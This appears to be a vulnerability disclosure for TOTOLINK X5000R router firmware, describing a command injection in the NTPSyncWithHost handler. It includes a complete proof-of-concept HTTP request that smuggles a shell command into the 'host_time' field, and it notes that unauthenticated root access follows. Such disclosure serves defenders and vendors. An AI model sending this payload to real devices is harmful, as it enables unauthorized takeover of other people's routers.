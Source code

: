 # Firmware Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/218/ids/36.html
- Version ：TOTOLINK X5000R V9.1.0u.6118_B20201102、TOTOLINK X5000R V9.1.0u.6369_B20230113

## Product Information

![](./img/1.png)

## Analyse

TOTOLINK X5000R (V9.1.0u.6118_B20201102)was found to contain a command insertion vulnerability in NTPSyncWithHost.This vulnerability allows an attacker to execute arbitrary commands through the "host_time" parameter.

![](./img/2.png)

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.3.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 87
Origin: http://192.168.3.2
Connection: close
Referer: http://192.168.3.2/advance/time.html?time=1679126798322
Cookie: SESSION_ID=2:1679122532:2

{"host_time":"2023-03-18 16:07:03' ;ls > /tmp/1.txt;\r\n","topicurl":"NTPSyncWithHost"}
```

![](./img/3.png)

Finally, you can write exp to get a stable root shell without authorization.










